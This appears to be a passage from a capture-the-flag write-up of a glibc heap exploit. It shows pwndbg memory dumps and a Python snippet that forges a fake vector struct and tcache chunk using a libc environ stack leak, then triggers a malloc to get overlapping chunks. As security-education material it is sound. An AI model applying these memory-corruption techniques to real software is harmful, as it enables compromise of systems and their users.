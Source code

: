 Now that we successfully gain a stack leak, and prepared a fake chunk in the tcache bin, we just have to set the proper size in the libc, and call shrink!

### Returning to the heap

The current state in Libc's environ:

```bash
pwndbg> dq (long)&environ-0x38 20
00007f03e4c49d20     0000000000000000 0000000000000000
00007f03e4c49d30     0000000000000000 0000000000000000
00007f03e4c49d40     0000000000000000 0000000000000000
00007f03e4c49d50     0000000000000000 00007fff44b0d4c8
00007f03e4c49d60     0000000000000000 0000000000000000
00007f03e4c49d70     0000564173cab000 0000000000000000
00007f03e4c49d80     0000000000000000 0000000000000000
00007f03e4c49d90     0000000000000000 0000000000000000
00007f03e4c49da0     0000000000000000 0000000000000000
00007f03e4c49db0     0000000000000000 0000000000000000
```

This is the active fake chunk currently used to leak a stack address. As for the current vector struct state:

```bash
0x564173c8a290  0x0000000000000000      0x0000000000000021      ........!.......
0x564173c8a2a0  0x00007f03e4c49d20      0x0000000000000007       ...............
0x564173c8a2b0  0xfffffffffffffd70      0x0000000000000031      p.......1.......
```

As can be seen, the current size is 7. However, to malloc from the 0x70 tcache bin, we need to have a size of 12 (0xc). Since the values will be memcpy'd, I set up a payload that retain libc's environ value, and set the size and capacity to prepare for the next step of the exploit.

```python
for i in range(7):
    pop() #Empty out the size

fakestruct = [
    0x0, 0x0,
    0x0, 0x21, # Vector struct chunk size.
    0x0, 0x4, # Arbitrary free to 0, and set size to 0x4
    -1, stackleak, # Set max capacity and Retain Libc's Environ value.
    0x0, 0x0,
    heapleak+0x21000, 0x0 # Retain __curbrk value
]

for member in fakestruct:
    push(convert(member)) #push values

shrink() #Trigger the malloc.
```

We run that, and then check the heap in gdb:

```bash
0x564173c8a240  0x0000000000000000      0x0000000000000000      ................
0x564173c8a250  0x0000000000000000      0x0000000000000000      ................
0x564173c8a260  0x0000000000000000      0x0000000000000000      ................
0x564173c8a270  0x0000000000000000      0x0000000000000071      ........q....... #--> Second Fake Chunk
0x564173c8a280  0x0000000000000000      0x0000000000000000      ................
0x564173c8a290  0x0000000000000000      0x0000000000000021      ........!....... #--> Vector Struct
0x564173c8a2a0  0x0000564173c8a280      0x0000000000000004      ...sAV.......... #--> Overlapping Chunk with size 0x4
0x564173c8a2b0  0xffffffffffffffff      0x00007fff44b0d4c8      ...........D....
0x564173c8a2c0  0x0000000000000000      0x0000000000000000      ................         <-- tcachebins[0x30][0/1]
```